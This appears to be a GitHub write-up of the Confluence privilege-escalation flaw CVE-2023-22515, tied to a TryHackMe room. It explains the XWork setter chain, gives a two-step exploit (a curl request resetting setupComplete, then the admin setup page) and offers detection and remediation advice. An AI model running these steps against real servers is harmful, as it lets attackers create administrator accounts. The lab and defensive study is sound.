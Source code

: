 # CVE-2023-22515

[munra at THM](https://tryhackme.com/room/confluence202322515): *"On October 4th, 2023, Atlassian released a [security advisory](https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html) regarding **CVE-2023-22515**, a broken access control vulnerability, with an assigned CVSS score of **10.0**. The vulnerability was introduced in version 8.0.0 of Confluence Server and Data Center editions and is present in versions `<8.3.3`, `<8.4.3`, `<8.5.2`. According to Atlassian, the vulnerability has already been exploited in the wild."*

The vulnerability can be exploited to create an additional account(s) in Confluence that have full administrative privileges. This is accomplished by re-enable the setup process post initial setup. This is due to Apache Struts framework, which depends on the XWork package that allows you to define Actions in the form of a Java class. 

## Exploit Quick and Dirty

...this is ridiculous 
```bash
# Set the setup complete object to false 
curl $confluenceServer/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
# Create an new Admin account
firefox $confluenceServer/setup/setupadministrator-start.action
```

[Chocapikk exploit script](https://github.com/Chocapikk/CVE-2023-22515) for those that want a python script.

## Explaination

- An Actions are invoked through a URL
- A corresponding class will handle each request to then return a response
- `execute()` method of the class will called by default

- XWorks specifics
	- Getters - get some data and returns the value
	- Setters - set some data to some value

- `ServerInfoAction` Action is exploited for CVE-2023-22515

`ConfluenceActionSupport` class is [extended](https://www.w3schools.com/java/ref_keyword_extends.asp) meaning that it is inherited from another class. Also it will inherit **ALL** it methods as well. 
```java
public class ConfluenceActionSupport extends ActionSupport implements LocaleProvider, WebInterface, MessageHolderAware {
  public BootstrapStatusProvider getBootstrapStatusProvider() {
    if (this.bootstrapStatusProvider == null)
      this.bootstrapStatusProvider = BootstrapStatusProviderImpl.getInstance(); 
    return this.bootstrapStatusProvider;
  }
}
```

For exploit the `BootstrapStatusProvider` class is important for retrieval of the `ApplicationConfiguration` object, which contain the applications configuration. 
```java
public class BootstrapStatusProviderImpl implements BootstrapStatusProvider, BootstrapManagerInternal {
  public ApplicationConfiguration getApplicationConfig() {
    return this.delegate.getApplicationConfig();
  }
}
```

We could then use the Setter method the Confluence setup configuration to false meaning that we could re-setup the Confluence application.
```java
public class ApplicationConfig implements ApplicationConfiguration {
  public synchronized void setSetupComplete(boolean setupComplete) {
    this.setupComplete = setupComplete;
  }  
}
```

Set the setup complete object to false 
```bash
curl $confluenceServer/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
```

The Java XWork would call: 
```java
getBootstrapStatusProvider().getApplicationConfig().setSetupComplete(false)
```

Then we could create an new Admin account
```bash
firefox $confluenceServer/setup/setupadministrator-start.action
```

## Remediation

- Initially:
	- Check if you have a vulnerable version: 
		- Network access logs pointing to `/setup/*.action`. There's no reason for a regular user to request such URLs after installation.
		- Network access logs to `/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false`.
		- Review your Confluence users and look for suspicious accounts and members of the `confluence-administrators` group.
	- Patch to: 
		- 8.3.3
		- 8.4.3
		- 8.5.2

[munra at THM](https://tryhackme.com/room/confluence202322515): *If upgrading is not possible immediately, access to the `/setup/*` endpoints may be blocked as a temporary measure. To do so, add the following security constraint inside the `<web-app>` tag in `/<confluence-install-dir>/confluence/WEB-INF/web.xml`:*

```xml
<security-constraint>
  <web-resource-collection>
    <url-pattern>/setup/*</url-pattern>
    <http-method-omission>*</http-method-omission>
  </web-resource-collection>
  <auth-constraint />
</security-constraint>
```

This will effectively restrict the access to `/setup/*`.

## Further Reading

[THM Confluence CVE-2023-22515 Room](https://tryhackme.com/room/confluence202322515)  recommends reading the [Rapid7 analysis in attackerKB](https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis?referrer=moreFromAKB).
## References

[THM Confluence CVE-2023-22515 Room](https://tryhackme.com/room/confluence202322515) 
[Atlassian security advisory](https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html)
[w3school - extend keyword](https://www.w3schools.com/java/ref_keyword_extends.asp)
[Rapid7 analysis in attackerKB](https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis?referrer=moreFromAKB).
[Chocapikk exploit script](https://github.com/Chocapikk/CVE-2023-22515)